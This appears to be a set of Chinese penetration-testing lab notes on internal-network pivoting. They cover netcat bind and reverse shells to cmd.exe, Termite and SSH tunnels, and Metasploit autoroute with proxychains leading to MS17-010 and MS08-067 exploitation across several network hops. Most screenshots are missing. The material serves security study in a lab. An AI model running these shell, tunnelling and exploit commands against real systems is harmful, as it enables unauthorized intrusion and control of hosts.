



msf纵向渗透多级网络穿透

NC工具的使用

NC及穿透内网工具使用（基于c/s架构）

tcp监听

nc可以作为server端启动一个tcp的监听，默认情况下下面监听的是一个tcp的端口

nc -l -p 9999

客户端测试

1、在B机器上telnet A机器此端口，如下显示表示B机器可以访问A机器此端口

telnet 10.0.1.161 9999

2、B机器上也可以使用nmap扫描A机器的此端口

nmap 10.0.1.161 -p9999

3、使用nc命令作为客户端工具进行端口探测

nc -vz -w 2 10.0.1.161 9999

（-v可视化，-z扫描时不发送数据，-w超时几秒，后面跟数字）

服务端会自动关闭监听。

4、nc可以扫描连续端口，这个作用非常重要。常常可以用来扫描服务器端口，然后给服务器安全加固

在客户端B机器上扫描连续的两个端口，如下

nc -vzw 2 10.0.1.161 9998-9999

 

如何使用?

1、nc建立连接

上传nc.exe到目标服务器 （03为例）

指定侦听的端口

nc.exe -l -p 10875

本地也需要一个nc连接目标服务器（03为例）

nc.exe 192.168.17.129 10875

建立连接之后就可以互相发送信息

 

 

**2、**nc扫描端口

nc -nv -w 2 ip port

nc -nv -w 1 ip port1-port2

（-v可视化，-z扫描时不发送数据，-w超时几秒，后面跟数字）

 

 

nc传文件 

> 保存文件 

< 传送文件

方法1，先启动接收命令

使用nc传输文件还是比较方便的，因为不用scp和rsync那种输入密码的操作了

把A机器上的一个rpm文件发送到B机器上

需注意操作次序，receiver先侦听端口，sender向receiver所在机器的该端口发送数据。 

步骤1，先在B机器上启动一个接收文件的监听，格式如下

意思是把赖在9995端口接收到的数据都写到file文件里（这里文件名随意取）

格式：nc -l port >file

nc -l -p 9995 >zabbix.rpm

步骤2，在A机器上往B机器的9995端口发送数据，把下面rpm包发送过去

nc 10.0.1.162 9995 < zabbix-release-2.4-1.el6.noarch.rpm

 

 

方法2，先启动发送命令

（反向传文件）谁来链接我，将文件发送给他

可以绕过防火墙（出去的流量防火墙一般不拦截）

步骤1，先在B机器上，启动发送文件命令

下面命令表示通过本地的9992端口发送test.mv文件

nc -l -p 9992 <test.mv

步骤2，A机器上连接B机器，取接收文件

下面命令表示通过连接B机器的9992端口接收文件，并把文件存到本目录下，文件名为test2.mv

nc 10.0.1.162 9992 >test2.mv

Windows 10

 

Win 2003

 

 

 

 

 

nc 反弹shell

方法1、REMOTE主机绑定SHELL（传递cmd）

在公网监听

nc -l -p 11213 -t -e c:\winnt\system32\cmd.exe

或者

nc -l -p 5555 -t -e cmd.exe

在内网主动建立连接

nc -nvv 192.168.153.138 5555

-t是通过telne模式执行 cmd.exe 程序，可以省略。

讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

03

 

Win10

 

方法2、REMOTE主机绑定SHELL并反向连接

在公网监听

nc -lp 5555

在内网机器反弹

nc -t -e c:\winnt\system32\cmd.exe 192.168.x.x 5354

或者

nc -t -e cmd 192.168.153.140 5555

讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

Win10

 

03

 

 

 

 

 

 

 

 

 

 

# Termite（白蚁）工具使用

原名ew（内网穿透工具）

程序地址, http://rootkiter.com/Termite/

一款极度小巧灵活的跳板机,有别于传统socks代理,它对于复杂内网环境下的渗透适用性更强,操作也极为简便

程序分为两部分,admin[为控制端]和agent[为代理端节点],admin和agent所有选项用途均一致

-l 指定本地socks端口,等待远程连

-c 指定远程socks机器ip

-p 指定远程socks机器端口

模拟环境如下:

Win10+03+win7+xp

（03、win7、xp都在内网，03和win7相连、win7和xp相连，win10只能访问到03）

 

（win10模拟）管理端工具 E:\TOOLS\TOOLS\12-内网渗透\Termite\admin

被控制端上传的工具（代理端） E:\TOOLS\TOOLS\12-内网渗透\Termite\agent

获得各个主机的shell之后，上传代理端软件到对应的服务器

由于都是windows系统，所以采用这个工具，linux系统也有对应的工具

E:\TOOLS\TOOLS\12-内网渗透\Termite\agent\agent_Win32.exe

将每个文件分别上传到服务器之后，运行监听对应的端口

03

 

Win7

 

Xp

 

Win10连接03

-c指定ip -p指定开放的端口

 

 

连接成功之后控制03与win7建立连接，与win7建立连接之后控制win7与xp建立连接，这样就建立了1，2，3的隧道，之后就可以任意调用内网中的服务器了（通过goto对应的id号即可）

 

查看帮助，可以看到对应的功能

 

lcxtran 将目标主机端口转发到本地端口

xp开启3389 （此电脑->属性->远程）

lcxtran 1189 192.168.15.130 3389

 

成功监听

 

远程连接,由于中间转多级隧道，会导致无法连接，这里无法成功

 

 

例如：upfile	上传文件

可以指定文件名称和位置

 

上传成功

 

调用shell

 

 

 

注意：除了上面的正向连接，termite还具有反向连接功能

比如：让xp连接win7（将控制权交给win7），win7连接03（将控制权交给03），本地主机连接03即可（因为内部03、win7、xp之间的隧道已经建立完成了），即可控制03、win7、xp

本地测试了一下反向链接最多只能两个主机，超过两个主机貌似多余的主机没有会话.

具体流程

Win7本地监听自己的对应的6666端口等待xp将shell交给自己

 

03本地监听自己的对应的5555端口等待win7将shell交给自己

 

Xp 将自己的shell交给win7

 

 

 

本地连接03

 

但是显示的结果只有win7连接上了，xp并没有连接上，尝试了多次都是这个结果

 

 

如果是linux （操作也是一样的），只是上传的文件需要有对应的权限

也可以linux管理linux

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

 

# SSH代理穿透内网（通过ssh服务穿透内网）

ssh正向代理

环境：（分配对应的网卡就行了）

Kali(net) 、rhel(net、vnet1)（既可以连接kali又可以连接内网的一台主机03）、03（vnet1）连接rhel

在Client机器A执行如下命令:

ssh -L [本地IP可省略:][本地端口]:[服务器C地址]:[服务器C端口] [SSH服务器IP] -p [非默认端口22]

如果使用的是默认SSH端口22 ,则"-p 端口"不用输入.

root@ip 这里是rhel ip，前面的192.168.17.129:8081是03的站点 ，这里转发到kali本地127.0.0.1:8081 将目标服务器主机所在内网的一台服务器转发到本地kali

ssh -L 8081:192.168.17.129:8081/ [root@192.168.149.181](mailto:root@192.168.149.181) -p 

ssh -L 8081:192.168.17.129:8081/ [root@192.168.149.181](mailto:root@192.168.149.181) -p 22 （这里千万不要写错了）

 

转发成功

 

这样在访问本机的8001端口,通过SSH服务器B端口转发后,实际访问的就是服务器C的8001端口.

 

ssh反向代理

将kali本地端口转发给rhel

将Client的端口镜像到SSH服务器上,所有可以访问SSH服务器的访问SSH镜像的端口时即是访问Client的端口.

ssh -R [SSH服务器IP:][SSH服务器上端口]:[客户端侧IP或能访问到的IP]:[客户端侧IP端口或能反问的IP的端口] 用户名@SSH服务器IP -p SSH服务器端口

如果SSH服务器使用的为默认22端口,则后面的"-p SSH服务器端口"不用输入

在kali连接rhel（root@192.168.149.181）时候， 将本地的80端口转发给rhel的另一个网卡(192.168.17.133)的8001端口

我们把kali开启80，把80端口映射给ssh服务器8001端口

ssh -R 192.168.17.133:8001:127.0.0.1:80 root@192.168.149.181

 

 不过这里rhel需要使用127.0.0.1才能登录，因为虽然这样写了，但是监听的地址是127.0.0.1:8001，所以使用第二张网卡(192.168.17.133:8001)并不能访问到

 

 

 

 

ssh配置socket代理

比如：

扫描内网中所有主机，但是流量无法进入内网

在建立ssh连接的同时本地建立socket代理服务器,侦听的端口为8081，配置proxychain

socket代理 ssh服务器可以访问外网,能访问google,facebook等站点,client可以访问ssh服务器但是不能访问google,facebook.如果希望client通过ssh服务器代理访问google,facebook通过以下命令可以实现.

ssh -D 8081 username@SSH服务器IP -p SSH服务器端口

root@kali:/# ssh -D 8081 root@192.168.149.181

本地浏览器上设置socket代理后,浏览器即可访问google,facebook站点了.

或者可以使用proxychain 来扫描socket代理的内网

 

本地已经开启了8081socket代理端口

 

 

 

配置proxychians，让proxychain来驱动socket代理

 

将proxychain socks4监听的端口更改为8001

 

调用namp进行网段或者端口扫描（其实就算kali无法访问03，但是rhel能够访问03，kali通过ssh服务器代理访问03）

 

 

 

MSF穿越多级网络（纵向渗透）

 里面有win8（net / wnet1）、win7(vnet1 /vnet4) 、xp（vnet4）

Win8的ip，kali只能访问192.168.149.150不能访问192.168.15.134,而win8能够访问win7的192.168.15.129

 

生成木马

 

上传到win7，设置监听

 

运行程序，反弹会话

 

通过meterpreter 的shell可以得到还有别的网段 192.168.15.0

 

 

注意每次退出meterpreter之前先挂起

为了使msf中模块更好的扫描15.0网络我们给shell添加路由

run autoroute -s 192.168.15.0/24

 

然后开始扫描192.168.15.0网段,操作如下:

run post/windows/gather/arp_scanner RHOSTS=192.168.15.0/24

 

当然也可以挂起会话，使用之前学习过的扫描模块进行扫描

也就是这儿我们挂起会话之后我们可以结合之前学习过的（信息搜集、密码爆破、漏洞利用等等模块）进行内网渗透，作用还是比较大的

search  portsacn

 

使用tcp扫描,指定扫描的网段、线程数

 

得到结果

 

如何调用外部工具进行扫描呢？（比如nmap）

通过meterpreter建立的会话设置代理

search socks4

 

修改 vi /etc/proxychains.conf 配置文件设置socks4代理的端口

 

设置监听的地址和端口，和上面proxychains.conf配置文件中的一致

 

运行，可以看到socks4的代理已经成功开启

 

使用proxychains驱动namp进行扫描

添加的对方路由，你本身路由是ping不通的，-Pn的目的是不管能否ping通，整个扫描过程都会完成命令：

proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms\*.nse 192.168.15.129

 

得到可以利用的漏洞，直接秒

	这里进行漏洞利用

 

 

即使永恒之蓝写入成功也会利用失败

 

原因是:通过options可以发现利用的payload采用的是reverse_tcp,这里是无法建立反弹连接，只能使用正向连接。

 

可以看到这里payload设置的就是反弹连接的方式，地址设置的也是kali本机的地址

 

重新设置payload，采用正向连接的方式（主动连接目标主机）

 

可以看到这里payload设置的就是正向连接的方式，地址会默认设置为目标主机的地址

 

运行，建立连接

 

通过meterpreter 的shell可以得到还有别的网段 192.168.220.0

 

 

接下来对220网段进行纵向渗透

为了使msf中模块更好的扫描220.0网络我们给shell添加路由

run autoroute -s 192.168.220.0/24

 

然后开始扫描192.168.220.0网段,操作如下:

run post/windows/gather/arp_scanner RHOSTS=192.168.220.0/24

得到这台主机

 

 

使用nmap进行扫描

先设置代理

 

修改 vi /etc/proxychains.conf 配置文件

 

添加一个1081端口

 

 

检查socks4代理已经建立侦听了

 

使用proxychains驱动namp进行扫描

命令：

proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms\*.nse 192.168.220.130

 

得到08-067和17-010都是可以利用的，这里采用08-067进行利用

 

搜索漏洞

 

进行利用

 

设置目标xp 

 

成功,可以发现这里通过两级跳才到最后的目标

 

 

通过shell ipconfig查询没有别的网段，当前纵向渗透完成

 

纵向渗透完成之后如何进行横向渗透呢？（在使用的工具前面添加proxychains ）

同一网段的所有主机、查看开放的端口、服务

proxychains hydra -l 进行爆破 （后面也会将横向）

proxychains namp

80

445

中间件 

爆破 

嗅探

其实就和之前的差不多了，也可以在msf中进行使用

将远程端口转发到本地攻击

portfwd add -l 8001 -p 8001-r 192.168.220.130

将远程主机的8001端口转发到本地的8001端口，使用namp扫描本地的8001端口就ok了

Redis 127.0.0.1 将redis转发到本地添加计划任务，写shell

 

相对来说，内网比外网好搞，安全性差一些

 

例如：

内网web服务器（80）通过防火墙进行端口（80）转发才能访问，也就是说默认访问的ip+端口是防火墙的，防火墙还要进行转发。如果我们拿到改服务器shell之后如何远程连接3389呢（内网web服务器默认开启了3389）？

**1、**通过msf或者lcx进行端口转发，转发到公网ip上

**2、**将3389捆绑到该web服务器的进行转发的端口上（端口复用）

问题：到底是访问3389还是网站默认的端口？

 

端口复用器：工具的路径（08以前的windows版本缺少.dll文件可以使用更高版本的windows 12、16、win10）

E:\TOOLS\TOOLS\12-内网渗透\DivertTCPconn-master (1)\Binaries_x64

访问网站的时候使用80进行响应，

在使用mstsc的时候进行连接3389

示例：要将最初瞄准端口TCP-80的传入流量转移到另一个TCP端口，例如8080，请执行以下操作：

c:\> divertTCPconn 3389 80 

 